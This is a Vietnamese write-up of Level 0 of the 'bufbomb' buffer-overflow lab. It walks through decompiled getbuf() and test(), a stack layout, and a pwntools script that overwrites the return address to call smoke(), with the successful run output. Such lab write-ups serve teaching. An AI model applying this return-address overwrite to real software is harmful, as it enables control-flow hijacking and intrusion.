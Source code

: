 # Level 0
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Yêu cầu: Buffer overflow để thực thi hàm `smoke()` từ hàm `test()`.

## Solution
Mở IDA Pro 32bit và xem pseudocode của hàm `test()`.  

```c
int test()
{
  int v1; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  v1 = uniqueval();
  v2 = getbuf();

  if ( uniqueval() != v1 )
    return puts("Sabotaged!: the stack has been corrupted");
  if ( v2 != cookie )
    return printf("Dud: getbuf returned 0x%x\n", v2);
  printf("Boom!: getbuf returned 0x%x\n", v2);
  return validate(3);
}
```  

Có thể thấy, ở trong hàm `test()` có hàm `getbuf()` được dùng để đọc chuỗi vào buffer. Vậy chúng ta tiến hành xem pseudocode của hàm `getbuf()`.  
```c
int getbuf()
{
  char v1[40]; // [esp+0h] [ebp-28h] BYREF

  Gets(v1);
  return 1;
}
```  

Từ đoạn pseudocode trên thì ta có thể thấy, `buffer` sẽ có độ dài là 40 (`0x28`) bytes và `buffer` này sẽ được truyền vào hàm `Gets()` để thực hiện việc đọc chuỗi từ console.  

Trước khi hàm `Gets()` được thực thi, stack của chúng ta sẽ như sau:  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm gọi getbuf()
+---------------------------------+
|      ebp (getbuf's caller)      |---> ebp của hàm gọi getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+

```  

Vậy để thực thi được hàm `smoke()`, chúng ta sẽ tìm cách ghi đè địa chỉ của hàm `smoke()` vào ô nhớ stack chứa địa chỉ trả về của hàm `getbuf()` (như hình ảnh minh họa ở trên). Do đó, payload của chúng ta phải có độ dài `0x28 + 0x4 + 0x4` (với `0x28` bytes để fill hết toàn bộ buffer được cấp, `0x4` tiếp theo để ghi đè `ebp` của hàm `getbuf()` và `0x4` cuối cùng chính là địa chỉ của hàm `smoke()`.  

Ở hàm `smoke()`, nếu chúng ta gọi hàm thành công thì chuỗi `Smoke!: You called smoke()` sẽ được in ra console.  
```c
void __noreturn smoke()
{
  puts("Smoke!: You called smoke()");
  validate(0);
  exit(0);
}
```

### Script
Để hiện thực hóa ý tưởng trên thì chúng ta sẽ dùng module `pwn` của Python.  

```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo 1 tiến trình tới chương trình bufbomb
io = process(['./bufbomb', '-u', '09821978'])

# tạo 1 ELF object để đọc metadata của hàm bufbomb
e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)

# lấy địa chỉ của hàm smoke() và thêm vào payload
exploit_payload += p32(e.symbols['smoke'])

print(f"exploit payload: {exploit_payload}")

# nhập payload vào tiến trình bufbomb
io.sendline(exploit_payload)

# hiển thị kết quả
io.interactive()
```  

Stack khi bị buffer overflow:  
```
+---------------------------------+
|     địa chỉ của hàm smoke()     |---> return address của hàm gọi getbuf()
+---------------------------------+
|             'AAAA'              |---> ebp của hàm gọi getbuf()
+---------------------------------+
               .
               . => 0x1C bytes 
               .
+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |---> top của stack
+---------------------------------+

```

Chạy script:  

```
└─$ ./level0.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 52
exploit payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xeb\x9a\x13\x80'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 52)
Userid: 09821978
Cookie: 0x31f21393
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
[*] Got EOF while reading in interactive
$
```  
> Thành công!
